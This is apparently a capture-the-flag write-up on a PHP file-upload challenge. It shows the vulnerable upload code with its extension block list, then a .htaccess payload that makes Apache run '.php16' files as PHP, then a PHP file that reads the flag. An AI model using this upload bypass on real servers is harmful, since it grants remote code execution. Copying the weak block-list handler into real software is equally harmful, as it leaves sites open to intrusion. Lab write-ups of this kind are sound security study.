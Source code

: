 ### Port 20055 \[Web]

This wa PHP file upload challenge. We are provided with the following source code.

```php
<?php
    $storage_dir = "file_uploads/";
    $full_storage_path = $storage_dir . basename($_FILES["fileName"]["name"]);
    $file_ext = pathinfo($full_storage_path, PATHINFO_EXTENSION);
    $file_ext = strtolower($file_ext);
    $blocked_ext = ["php", "php2", "php3", "php4", "php5", "php6", "php7", "php8", "phps", "pht", "phtm", "phar", "phtml", "pgif", "shtml", "html", "inc", "cgi", "asp", "aspx", "config", "pl", "py", "rs", "rb", "vbhtml", "vbtm", "vb", "phpt", "phtml"];
    echo($file_ext);
    if (in_array($file_ext, $blocked_ext, true) === true){
    echo("<html><h1>Blocked file extension detected! File upload blocked!</h1></html>");
    exit(1);
    }
    
    // Check file size
    if ($_FILES["fileName"]["size"] > 500000) {
    echo("<html><p>Sorry, your file is too large.</p></html>");
    exit(2);
    }
    
    // Move the uploaded file
    if (move_uploaded_file($_FILES["fileName"]["tmp_name"], $full_storage_path) === true){
    echo("<html><p>File has been uploaded successfully and is now available <a href='/$full_storage_path'>here</a>! But can you figure out how to execute it?</html>");
    }
    else{
    echo("<html><p>File was not successfully uploaded!</p></html>");
    }
?>
```

While most common PHP file extensions are blocked, `.htaccess` was not!

We could upload a `.htaccess` file to tell Apache to interpret some arbitrary file extension as a PHP file (e.g. `.php16`).

```http
Content-Disposition: form-data; name="fileName"; filename=".htaccess"
Content-Type: text/html

AddHandler application/x-httpd-php .php16      # Say all file with extension .php16 will execute php
```

Then, uploading any file with the `.php16` extension results in RCE, and we can download the flag..

```http
Content-Disposition: form-data; name="fileName"; filename="test.php16"
Content-Type: text/html

<?php
$file = '/flag.png';

if (file_exists($file)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($file).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    readfile($file);
    exit;
}
?>
```
